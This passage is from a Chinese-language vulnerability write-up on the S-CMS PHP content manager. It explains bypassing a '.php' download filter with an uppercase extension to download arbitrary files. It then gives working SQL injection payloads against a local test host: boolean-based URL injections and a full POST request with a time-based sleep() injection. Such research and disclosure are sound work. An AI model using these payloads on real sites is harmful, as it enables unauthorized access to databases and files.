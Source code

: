 继续查看27-30行代码：
```php
$DownName=$_GET["DownName"];
if(strpos($DownName,".php")!==false){
    die("禁止下载PHP格式文件！");
}
```
发现不允许下载后缀名为php的文件，这里只需要将php用大写替换即可，比如：`Php`

最后的payload为：
注意`cookie`中的内容
![任意文件下载](https://y4er.com/img/uploads/20190509160733.jpg "任意文件下载")

### 总结
scm还有多处sql注入漏洞：

```http
http://127.0.0.1/scms/wap_index.php?type=newsinfo&S_id=112489097%20or%20ascii(substr(user(),1,1))=114
```
```http
http://127.0.0.1/scms/js/pic.php?P_id=10440322488%20or%20ascii(substr(user(),1,1))=113
```
```http
POST /scms/js/scms.php?action=comment HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Cookie: authorization=fail; authorization4=1MHwwfHMxMXx3MXx4M3x4MTF8; PHPSESSID=7f1d23f4v12cp323fh6osb9v36; __typecho_lang=zh_CN; __tins__19608037=%7B%22sid%22%3A%201543394079021%2C%20%22vd%22%3A%2012%2C%20%22expires%22%3A%201543396066537%7D; __51cke__=; __51laig__=12; CmsCode=eijb
Connection: close
Upgrade-Insecure-Requests: 1

page=aaaaa11' or if(substr(user(),1,1)='r',sleep(5),1) --+
```

### 参考链接

https://xz.aliyun.com/t/3614

https://www.cnblogs.com/ashe666/archive/2018/12/10/10094706.html